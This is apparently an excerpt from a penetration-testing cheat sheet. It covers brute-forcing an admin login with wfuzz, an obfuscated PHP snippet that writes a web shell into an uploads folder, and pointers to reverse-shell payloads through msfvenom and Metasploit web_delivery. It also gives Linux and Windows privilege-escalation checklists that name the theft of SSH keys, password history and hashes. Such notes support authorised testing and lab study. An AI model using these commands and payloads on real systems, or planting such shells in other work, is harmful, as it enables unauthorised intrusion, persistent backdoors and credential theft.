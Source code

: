 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

file upload evasion:  rot13 + urlencode

```<?php $payload="%3C%3Fcuc%20flfgrz%28%24_TRG%5Bp%5D%29%3B%3F%3E"; file_put_contents('/var/www/html/uploads/test8.php', str_rot13(urldecode($payload))); ?>```


<a name="rcewebshell"></a><h3>RCE via webshell</h3>

- All pentest monkey reverse shells: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

- msfvenom x86/linux/shell_reverse_tcp -f elf

- Metasploit `web_delivery` module

- which wget | nc <ip> <port>


<a name="privesc"></a><h2> Privilege Escalation</h2>


<a name="linux"></a><h3> Linux Privilege Escalation </h3>

- sudo -l
- Kernel Exploits
- OS Exploits
- Password reuse (mysql, .bash_history, 000-default.conf...)
- Known binaries with suid flag and interactive (nmap)
- Custom binaries with suid flag either using other binaries or with command execution
- Writable files owned by root that get executed (cronjobs)
- MySQL as root
- Vulnerable services (chkrootkit, logrotate)
- Writable /etc/passwd
- Readable .bash_history
- SSH private key
- Listening ports on localhost
- /etc/fstab
- /etc/exports
- /var/mail
- Process as other user (root) executing something you have permissions to modify
- SSH public key + Predictable PRNG
- apt update hooking (Pre-Invoke)

<a name="windows"></a><h3> Windows Privilege Escalation </h3>

- Kernel Exploits
- OS Exploits
- Pass The Hash
- Password reuse
- DLL hijacking (Path)
- Vulnerable services
- Writable services binaries path
- Unquoted services
- Listening ports on localhost
- Registry keys


<a name="kernel"></a><h3> Kernel Exploits </h3>

Linux: https://github.com/lucyoa/kernel-exploits

Windows: https://github.com/abatchy17/WindowsExploits

```